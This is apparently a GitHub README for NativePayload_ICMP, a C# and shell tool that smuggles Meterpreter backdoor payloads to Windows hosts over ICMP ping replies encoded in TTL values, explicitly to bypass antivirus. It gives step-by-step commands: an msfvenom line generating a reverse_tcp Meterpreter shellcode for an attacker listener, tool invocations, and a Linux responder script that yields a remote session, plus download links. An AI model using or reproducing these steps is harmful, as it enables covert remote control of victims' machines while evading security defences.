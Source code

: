 # NativePayload_ICMP v1.0
C# code Published by Damon Mohammadbagher

Article step by step : https://www.peerlyst.com/posts/transfer-download-payload-by-icmpv4-traffic-via-ttl-damon-mohammadbagher


NativePayload_ICMP : transfer Backdoor Payloads by ICMPv4 Traffic and bypassing Anti-Viruses

Tested : Win7 SP1 and Win 2008 R2

step by step:

example step1 msfvenom --arch x86_64 --platform windows -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.50 -f c > payload.txt

note: copy your msfvenom output payloads to 'Payload string' like 'fc4883e4f0e8cc00000415141505265'

example step2 c:\\> NativePayload_ICMP.exe null "Payload string" > script.sh

example step2 c:\\> NativePayload_ICMP.exe null fc4883e4f0e8cc00000415141505265 > script.sh

example step3 c:\\> NativePayload_ICMP.exe ipaddress (sending ICMPv4 traffic to this ipaddress by ping)

example step3 c:\\> NativePayload_ICMP.exe 192.168.1.50 

example step4 linux side ./script.sh  (run this script in PING Responder linux system).

note: after chmod also adding #!/bin/bash to script.sh file , you can run this script in PING Responder system.

note: you should run this script in your linux after step3 for Response to PING traffic from backdoor system

note: Backdoor system is win with NativePayload_ICMP.exe and ipaddress for example: 192.168.1.120

note: PING Responder system is linux with ./script.sh and ipaddress for example : 192.168.1.50

note: PING Responder system is also Meterpreter Listener by ipaddress : 192.168.1.50

<summary>

in this case after 1020 ping request and response you have Meterpreter Session by ICMPv4

Dumping Payloads by TTL from PING Response...

Meterpreter Payload is 510 bytes

510 * 2 = 1020

 0 ... 1019 = 1020 Request
 
</summary>

# NativePayload_ICMP v2.0

"NativePayload_ICMP.exe" v2.0 C# Code and Shell Script "NativePayload_ICMP.sh" v1.0 Released for Ebook. (May 2018 , bug fixed).

    NativePayload_ICMP.exe v2.0 syntax: 
    NativePayload_ICMP.exe help

    NativePayload_ICMP.sh v1.0 syntax: 
    step0 Client-Side with ipv4 w.x.y.z , syntax :./NativePayload_ICMP.sh shtext "your text or string"
    step1 Server-Side with ipv4 w1.x1.y1.z1 syntax :./NativePayload_ICMP.sh listen "w.x.y.z"
    Note: in step1 you should use Client-side system w.x.y.z IPv4Address
    help syntax : ./NativePayload_ICMP.sh help

Download  "NativePayload_ICMP.exe" v2.0 C# Code and Shell Script "NativePayload_ICMP.sh" v1.0 here : https://github.com/DamonMohammadbagher/NativePayload_ICMP/tree/master/EBOOK
